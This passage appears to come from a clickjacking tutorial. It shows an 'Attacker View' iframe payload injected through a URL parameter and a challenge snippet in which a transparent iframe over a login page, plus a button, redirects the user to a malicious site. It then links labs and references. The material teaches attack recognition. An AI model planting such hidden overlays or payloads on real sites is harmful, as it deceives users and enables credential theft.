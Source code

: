 Attacker View:

```html
<iframe src=”http://target site/?param=if(top+!%3D+self)+%7B+top.location%3Dself.location%3B+%7D”>
```

## Challenge

Inspect the following code:

```html
<div style="position: absolute; opacity: 0;">
  <iframe src="https://legitimate-site.com/login" width="500" height="500"></iframe>
</div>
<button onclick="document.getElementsByTagName('iframe')[0].contentWindow.location='malicious-site.com';">Click me</button>
```

Determine the Clickjacking vulnerability within this code snippet. Identify how the hidden iframe is being used to exploit the user's actions when they click the button, leading them to a malicious website.


## Labs

* [OWASP WebGoat](https://owasp.org/www-project-webgoat/)
* [OWASP Client Side Clickjacking Test](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/09-Testing_for_Clickjacking)


## References

- [Clickjacker.io - Saurabh Banawar - May 10, 2020](https://clickjacker.io)
- [Clickjacking - Gustav Rydstedt - April 28, 2020](https://owasp.org/www-community/attacks/Clickjacking)
- [Synopsys Clickjacking - BlackDuck - November 29, 2019](https://www.synopsys.com/glossary/what-is-clickjacking.html#B)
- [Web-Security Clickjacking - PortSwigger - October 12, 2019](https://portswigger.net/web-security/clickjacking)